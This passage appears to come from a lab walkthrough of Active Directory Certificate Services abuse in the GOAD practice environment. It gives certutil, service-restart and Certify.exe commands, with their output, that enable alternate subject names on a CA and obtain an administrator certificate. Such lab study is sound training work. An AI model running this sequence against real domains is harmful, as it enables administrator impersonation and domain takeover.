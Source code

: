 ### Attack Vectors

1. **CA Server Object**: WriteProperty permission allows configuration changes
2. **Certificate Templates Container**: GenericWrite allows template creation
3. **Individual CA Objects**: Various dangerous permissions

Let's examine what we have in GOAD. Check CA object permissions in essos.local domain:

```bash
Get-ADObject "CN=ESSOS-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local" -Properties nTSecurityDescriptor

DistinguishedName : CN=ESSOS-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local
Name              : ESSOS-CA
ObjectClass       : pKIEnrollmentService
ObjectGUID        : 4f8bd644-2c29-418c-93f1-fe926f91f6b4

# In GOAD, khal.drogo has interesting permissions on the CA
```

### CA Configuration Modification

If you have WriteProperty, modify CA settings. Enable SAN in issued certificates:

```bash
certutil -config "braavos.essos.local\ESSOS-CA" -setreg CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2

CertUtil: -setreg command completed successfully.
The command completed successfully.
```

Restart certificate services to apply changes

```bash
net stop certsvc && net start certsvc

The Certificate Services service is stopping.
The Certificate Services service was stopped successfully.
The Certificate Services service is starting.
The Certificate Services service was started successfully.

# Wait for services to fully restart
Start-Sleep -Seconds 10
```

Now we can request certificate with SAN from any template:

```bash
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:User /altname:upn:administrator@essos.local

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\khal.drogo
[*] Template                : User
[*] Subject                 : CN=khal.drogo, CN=Users, DC=essos, DC=local
[*] AltName                 : administrator@essos.local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 12
```
